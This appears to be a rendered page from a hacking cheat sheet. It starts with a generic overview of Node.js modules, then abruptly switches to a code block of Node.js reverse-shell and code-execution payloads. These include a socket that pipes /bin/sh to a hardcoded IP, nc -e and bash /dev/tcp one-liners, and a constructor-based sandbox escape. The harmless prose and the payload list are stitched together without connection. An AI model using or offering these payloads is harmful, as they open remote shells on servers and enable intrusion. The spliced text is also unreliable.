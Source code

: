 ### Common Node.js Modules

Node.js has a rich ecosystem of modules that can be used to extend its functionality. Some of the most commonly used modules include:

- `http`: Provides functionality for creating HTTP servers and clients.
- `fs`: Provides file system-related operations.
- `path`: Provides utilities for working with file and directory paths.
- `crypto`: Provides cryptographic functionality.
- `util`: Provides various utility functions.

### Conclusion

Node.js is a powerful runtime environment for building server-side and networking applications. With its event-driven, non-blocking I/O model and rich ecosystem of modules, it offers developers a flexible and efficient platform for their projects.
```javascript
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(8080, "10.17.26.64", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application form crashing
})();


or

require('child_process').exec('nc -e /bin/sh [IPADDR] [PORT]')
require('child_process').exec("bash -c 'bash -i >& /dev/tcp/10.10.14.2/6767 0>&1'")

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc [IPADDR] [PORT] -e /bin/bash')

or

// If you get to the constructor of a function you can define and execute another function inside a string
"".sub.constructor("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()
"".__proto__.constructor.constructor("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()


or

// Abuse this syntax to get a reverse shell
var fs = this.process.binding('fs');
var fs = process.binding('fs');

or

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```
## OpenSSL
